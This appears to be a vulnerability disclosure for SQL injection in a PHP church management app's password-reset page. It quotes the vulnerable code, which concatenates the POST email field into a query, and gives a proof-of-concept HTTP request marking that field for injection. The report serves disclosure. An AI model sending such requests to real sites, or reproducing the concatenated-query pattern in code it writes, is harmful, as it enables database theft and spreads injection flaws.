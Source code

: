 ### Vulnerability file address

`church/fpassword.php` from line 27,The `$_POST['email']` parameter is controllable and the `$_POST['email']` is not protected from sql injection, line 29 `$sql="SELECT * FROM login WHERE email='".$text_email."'";` ,line 32 `$ans->execute();` performs a SQL query, causing SQL injection

```php
<?php 

session_start();
// error_reporting(0);

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;


require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';
require 'PHPMailer/src/Exception.php';
// require '../../PHPMailer/src/Autoload.php';

 include("assets/constant/config.php");
 

 try {
        $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
        $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


if(isset($_POST['submit'])){

  $otp=substr(str_shuffle(str_repeat("0123456789abcdefghijklmnopqrstuvwxyz", 8)),0,8);
  $text_email=$_POST['email'];

  $sql="SELECT * FROM login WHERE email='".$text_email."'";
// print_r($sql);
  $ans=$conn->prepare($sql);
  $ans->execute();
  $res=$ans->fetch();
```

### POC

```http
POST /church/fpassword.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

submit=1&email=*
```

### Attack results pictures

![image-20250220213143519](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502202138127.png)